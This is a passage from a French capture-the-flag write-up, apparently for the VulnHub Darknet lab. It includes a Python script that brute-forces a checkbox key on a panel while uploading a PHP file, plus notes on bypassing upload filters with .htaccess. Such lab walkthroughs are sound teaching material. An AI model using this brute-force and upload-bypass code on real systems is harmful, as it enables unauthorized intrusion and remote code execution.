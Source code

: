 ```python
    "http://signal8.darknet.com/xpanel/",                                                                                                                                                                                                     
    data=login_data,                                                                                                                                                                                                                          
    headers={"Content-Type": "application/x-www-form-urlencoded"}                                                                                                                                                                             
    )                                                                                                                                                                                                                                         

if "Editor PHP" not in r.text:                                                                                                                                                                                                                
    print "Auth failed!"                                                                                                                                                                                                                      
    exit()                                                                                                                                                                                                                                    

for l in combinations(numbers, 4):                                                                                                                                                                                                            
    upload_data = [("Action", "Upload")]
    for k in l:
        upload_data.append(("checkbox[]", k))

    r = sess.post(
        "http://signal8.darknet.com/xpanel/ploy.php",
        data=upload_data,
        files={'imag':('phpinfo.php','<?php phpinfo(); ?>')}
        )
    if "Key incorrecta!" not in r.text:
        print "Found key", l
        print r.text
        break
```

Au bout d'un moment ça mort à l'hameçon :  

```plain
Found key ('37', '10', '59', '17')
Formato invalido!
```

On a le bon code mais l'upload de fichier php est refusé... On pourrait uploader un *.htaccess* pour rajouter une extension .yo qui serait interprétée comme PHP (voir [le writeup pour le Xerxes]({% link _posts/2014-03-07-Solution-du-CTF-Xerxes-de-VulnHub.md %})) sauf qu'à l'instar du [CTF Homeless]({% link _posts/2018-02-23-Solution-du-CTF-Homeless-de-VulnHub.md %}) tout upload semble supprimer l'upload précédent... donc si on envoie le .yo, bye bye le .htaccess et pas d'interprétation du code.  

